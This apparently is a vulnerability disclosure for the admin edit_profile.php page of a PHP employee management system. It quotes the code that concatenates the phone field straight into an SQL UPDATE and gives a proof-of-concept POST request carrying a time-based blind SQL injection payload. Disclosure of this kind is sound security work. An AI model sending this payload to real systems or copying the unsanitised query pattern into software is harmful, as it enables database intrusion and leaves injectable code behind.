 ### Vulnerability file address

`Admin/edit_profile.php` from line 12,The `$phone` parameter is controllable,, and the `$phone` is not protected from sql injection, line 14 `$sql = " update users set fullname='$fullname',phone='$phone' where username='$username'";` ,line 15 `mysqli_query($conn, $sql)`Line 15 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');
if(empty($_SESSION['admin-username']))
    {
      header("Location: login.php");
    }

if(isset($_POST['btnupdate']))
{

$fullname=$_POST['txtfullname'];
$phone=$_POST['txtphone'];

$sql = " update users set fullname='$fullname',phone='$phone' where username='$username'";
if (mysqli_query($conn, $sql)) {

header( "refresh:2;url= edit_profile.php" );
$_SESSION['success'] ='User Edited Successfully';
}else{
$_SESSION['error'] ='Problem Saving changes';
}
```

### POC

```http
POST /CMS/php/employee_akpoly/Admin/edit_profile.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Admin/edit_profile.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtfullname=123&txtphone=123' AND (SELECT 9637 FROM (SELECT(SLEEP(5)))RKIJ)-- mEjS&old_image=uploadImage/1.php&btnupdate=
```

### Attack results pictures

![image-20250128161700419](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281617460.png)